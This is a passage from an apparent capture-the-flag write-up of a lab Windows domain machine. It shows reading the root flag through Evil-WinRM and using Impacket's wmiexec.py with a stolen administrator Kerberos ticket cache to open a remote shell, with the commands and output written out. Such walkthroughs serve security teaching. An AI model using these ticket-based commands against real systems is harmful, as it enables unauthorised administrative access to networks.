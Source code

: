From here I can grab the flag:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
1a921d83************************

```

#### wmiexec.py

Impacket tools like `wmiexec.py` will work as well:

```

oxdf@hacky$ KRB5CCNAME=./administrator.ccache wmiexec.py windcorp.htb/administrator@hathor.windcorp.h
tb -k -no-pass
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                                  

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>

```

I can use the default ticket, but only if i specify the location:

```

oxdf@hacky$ wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k -no-pass
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

oxdf@hacky$ KRB5CCNAME=/tmp/krb5cc_1000 wmiexec.py windcorp.htb/administrator@hathor.windcorp.htb -k 
-no-pass
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>

```